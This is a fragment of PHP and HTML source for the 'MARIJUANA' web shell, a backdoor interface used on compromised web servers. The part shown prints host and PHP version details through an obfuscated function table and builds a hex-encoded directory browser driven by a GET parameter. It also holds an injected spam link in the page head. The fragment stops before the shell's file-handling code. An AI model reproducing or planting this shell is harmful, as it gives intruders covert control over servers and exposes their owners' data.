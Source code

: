 		<head>
			<meta charset="UTF-8">
			<meta name="robots" content="NOINDEX, NOFOLLOW">

				<title>MARIJUANA</title>

			<link rel="icon" href="//0x5a455553.github.io/MARIJUANA/icon.png" />
			<link rel="stylesheet" href="//0x5a455553.github.io/MARIJUANA/main.css" type="text/css">
      <a href="https://laetoto.live/">laetoto.live</a>
			<script src="//ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
			<script src="//cdnjs.cloudflare.com/ajax/libs/notify/0.4.2/notify.min.js"></script>
		</head>

		<body>
			<header>
				<div class="y x">
					<a class="ajx" href="<?php echo basename($_SERVER['PHP_SELF']);?>">
						MARIJuANA
					</a>
				</div>

				<div class="q x w">
					&#8212; DIOS &#8212; NO &#8212; CREA &#8212; NADA &#8212; EN &#8212; VANO &#8212;
				</div>
				
			</header>

			<article>
				<div class="i">
					<i class="far fa-hdd"></i>
					<?php echo $GNJ[0]();?>

					<br />

					<i class="far fa-lightbulb"></i> &thinsp;&thinsp;<b>SOFT  :</b> <?php echo $_SERVER['SERVER_SOFTWARE'];?> <b>PHP :</b> <?php echo $GNJ[1]();?>

					<br />

					<i class="far fa-folder"></i>
					
					<?php
					if(isset($_GET["d"])) {
						$d = uhex($_GET["d"]);
						$GNJ[2](uhex($_GET["d"]));
					}
					else {
						$d = $GNJ[3]();
					}
					$k = $GNJ[4]("/(\\\|\/)/", $d );
					foreach ($k as $m => $l) { 
						if($l=='' && $m==0) {
							echo '<a class="ajx" href="?d=2f">/</a>';
						}
						if($l == '') { 
							continue;
						}
						echo '<a class="ajx" href="?d=';
						for ($i = 0; $i <= $m; $i++) {
							echo hex($k[$i]); 
							if($i != $m) {
								echo '2f';
							}
						}
						echo '">'.$l.'</a>/'; 
					}
					?>
